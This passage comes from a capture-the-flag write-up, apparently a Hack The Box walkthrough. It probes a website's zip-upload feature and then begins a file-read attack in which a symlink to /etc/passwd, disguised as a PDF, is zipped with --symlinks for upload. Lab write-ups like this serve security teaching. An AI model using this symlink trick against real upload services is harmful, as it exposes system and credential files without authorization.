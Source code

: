 Nothing I didn’t know about at this point.

## Shell as rektsu

### Enumerate Upload

#### Intended Use

I’ll take a closer look at the file upload capability on the website. It wants a PDF inside a Zip, so I’ll make one:

```
oxdf@hacky$ zip sample.zip sample.pdf
  adding: sample.pdf (deflated 70%)
oxdf@hacky$ unzip -l sample.zip
Archive:  sample.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
     3028  2017-02-24 12:42   sample.pdf
---------                     -------
     3028                     1 file

```

When I submit this, the page reloads with a message over the form:

![image-20240108173823959](https://0xdf.gitlab.io/img/image-20240108173823959.png)

The yellow text is a link to `/uploads/[md5 of zip]/[filename]`. Clicking it returns the same PDF uploaded.

#### Pushing Boundaries

If I change the contents of the archive, it changes the directory. If I try to include a second file, it says “Please include a single PDF file in the archive.” If I try to include something that doesn’t end in `.zip`, it says “The unzipped file must have a .pdf extension.”

If I try to upload a non-zip (say, a PNG), it says “Error uploading file.” Even if I take the valid `.zip` file and rename it to `.png`, when I upload it, the site returns the same “Error uploading file” error. So that error is likely based on extension.

It seems that the filtering is done by file extension. If I create a text file and name it `test.zip`, uploading that also returns “Error uploading file”.

### File Read

#### Manual

So how will the site handle a symbolic link with a `.pdf` extension? I’ll create one:

```
oxdf@hacky$ ln -s /etc/passwd passwd.pdf
oxdf@hacky$ ls -l passwd.pdf
lrwxrwxrwx 1 oxdf oxdf 11 Jan  8 18:07 passwd.pdf -> /etc/passwd
oxdf@hacky$ zip --symlinks passwd.zip passwd.pdf
  adding: passwd.pdf (stored 0%)
oxdf@hacky$ unzip -l passwd.zip
Archive:  passwd.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
       11  2024-01-08 18:09   passwd.pdf
---------                     -------
       11                     1 file

```
